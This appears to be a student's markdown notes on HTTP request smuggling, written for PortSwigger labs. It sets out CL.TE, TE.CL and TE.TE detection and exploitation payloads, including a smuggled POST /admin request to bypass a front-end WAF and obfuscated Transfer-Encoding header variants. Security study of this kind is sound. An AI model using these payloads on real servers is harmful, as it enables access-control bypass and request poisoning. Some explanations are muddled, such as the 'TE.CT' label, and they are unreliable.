

## HTTPS request smuggle
- Everything is there to test in first image.
 
- Frontend WAF can be bypassed using smuggling.
- For doing exploit, where the backend uses TE then uses 0 for first chunk so that next thing is smuggled payload
  ```
  Content-Length: 65
  Transfer-encoding: chunked

  0

  POST /admin HTTP/1.1
  Content-Length: 14
  HOST: localhost
  X
  ``` 
- While appending the smuggled payload, have the header name added as value, not in the key of header`X: X`
- Send the thing twice to remove if duplicate header problem is coming
- In `Transfer-Encoding: chunked`, number of bytes are given in hex

TODO: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl 
Complete the rest : https://portswigger.net/web-security/request-smuggling/exploiting
### How to find
- Downgrade the request to http1.1 and make POST request using right-click dropdown
- Enable carriage return in request
- Get this request working and then only proceed to next step
#### CL.TE 
##### Detect
- Check if `CL.TE` is present 
- Confirm payload
    ```
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6
    Connection: keep-alive

    0
    
    X
    ```
- Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X. The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay. 
- The below is for utilising the smuggle to add header.
    ```
    POST / HTTP/1.1
    HOST: 89.207.132.170
    Connection: keep-alive
    Content-Length: 6
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
    \r\n
    0\r\n\
    \r\n\
    X-Ignore: X
    ```
  - remove extra `\r\n\` which is due to copy paste
  - Fist disable the update header content length to check if this is succeptilbe and then enable it to smuggle the request
  - Mind that there is no `\r\n\` after `X-Ignore: X` because next get request will be in new line if added
##### Poison
Use the subsequent payload with extra G and full content-length so that poisoning could occur

#### TE.CT
- Detect what Frontend and backend is using: 
  - Frontend:
      TE if request is invalid/rejected
      ```
      Transfer-Encoding: chunked
      Content-Length: 6
      Connection: keep-alive

      3
      abc
      X
      ```
  - Backend:
       TE if request is timed out 
      ```
      Transfer-Encoding: chunked
      Content-Length: 6
      Connection: keep-alive

      0
      
      X
      ```
- Confirm the request using the payload in the form of 2 request: 
  a. Attack request (see the specific section for the payload)
  b. Normal request
    ```
    POST / HTTP/1.1
    HOST: 89.207.132.170
    Connection: keep-alive
    Content-Length: 60
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked
    
    1
    x
    0
    
    ```

- Differential attack method
  - Attach request (contains posioning payload)
  - Normal request (normal request)


### Theory
  - Always done in POST request not GET request
  - works in http1.1 ( does not close connection with every request, but if you want to close it then connection: close)
    - http pipeline which is stack queue of request
  - clrf \r\n`` means new line
  - `Content-Length`: length of context body in first line and then next line gives the content length of the next line
    e.g. 
    ```
    
    GET / HTTP/1.1
    Content-Length: 7
    \r\n
    apple\r\n\
    ```
  - `Transfer-Encoding: chunked`: it looks for `\r\n\` to know the end of the content body
    e.g. 
    ```
    GET / HTTP/1.1 \r\n\
    Transfer-Encoding: chunked\r\n\
    \r\n\
    1\r\n\
    a\r\n\
    6\r\n\
    hello\r\n\
    2\r\n\
    hi\r\n\
    \r\n\
    ```
  - what if both are given `Content-Length` and `Transfer-Encoding` then `Content-Length` will be ignored in http1.1
  - We have Frontend server(e.g. loadbalancer: ngrok) and Backend server(e.g. service). If multiple requests are done then all of them is joined in a single TCP connection using http pipelining.
    - 
    - 
    - 
  - Poisoned `CL.TE` means if both are present then CL will be ignored 
  - Similarly `TE.CT` means if both are present then TE will be ignored
  - Similary `TE.TE` means if both are present then TE will be checked


### TE.TE
We can same header with little bit of obfuscated values and then smuggle the request. There is one header which will be correct and it will be removed from header when it reaches to backend. If the bad header is reached to backend with distorted header and it will lead the backend to use `Context-length` header instead of `Transfer-Encoding` header.

```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```


Miscellaneous

- Always write the hex bytes into the count
- TE.TE
  ```
    
  Transfer-encoding: chunked
  Transfer-encoding: xchunked
  Content-Length: 4

  25
  GPOST / HTTP/1.1
  Content-Length: 6

  0

  ```